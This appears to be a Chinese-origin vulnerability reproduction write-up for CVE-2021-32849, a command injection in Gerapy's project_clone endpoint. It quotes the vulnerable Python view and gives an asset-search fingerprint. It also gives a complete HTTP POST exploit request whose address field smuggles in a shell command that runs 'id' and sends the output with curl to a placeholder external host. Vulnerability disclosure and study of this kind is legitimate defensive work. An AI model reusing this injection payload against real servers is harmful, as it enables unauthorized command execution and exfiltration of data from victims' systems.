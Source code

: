 # Gerapy clone background remote command execution vulnerability CVE-2021-32849

## Vulnerability Description

Recently, our emergency team monitored an injection vulnerability in Gerapy 0.9.6 and previous versions. The vulnerability number is CVE-2021-32849. The vulnerability originated from the program that did not properly clean up the input passed to Popen through the project_clone endpoint. Attackers can use the vulnerability to execute any command.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Gerapy <= 0.9.6</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Gerapy"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132339956.png)

The file with the vulnerability is `gerapy/server/core/views.py`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638069295816-0a643bcf-f47e-4611-8352-57f49a8ba53a.png)

```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

Here you can see that the address parameter is a controllable parameter, spliced ​​into cmd and executed using the Popen command to construct the request package.

```python
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638069543218-d7275841-07af-4a10-a28a-065c329971b6.png)